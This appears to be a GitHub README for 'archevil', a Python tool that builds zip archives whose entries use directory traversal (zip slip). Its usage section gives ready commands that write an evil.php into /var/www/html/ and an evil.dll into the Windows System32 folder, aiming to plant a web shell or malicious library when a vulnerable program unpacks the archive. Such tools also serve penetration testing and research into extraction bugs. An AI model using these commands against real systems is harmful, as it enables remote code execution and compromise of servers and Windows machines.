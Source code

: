 # archevil
Create an archive containing a file with directory traversal

## Usage

Run the ```archevil.py``` Python script with the following parameters:
```
# Unix
python3 archevil.py evil.php -d 10 -p unix --path /var/www/html/ -o evil.zip

# Windows
python3 archevil.py evil.dll -d 10 -p win --path "WINDOWS\\System32\\" -o evil.zip
```

## Inspired By
* [evilarc](https://github.com/cesarsotovalero/zip-slip-exploit-example) (Python 2)
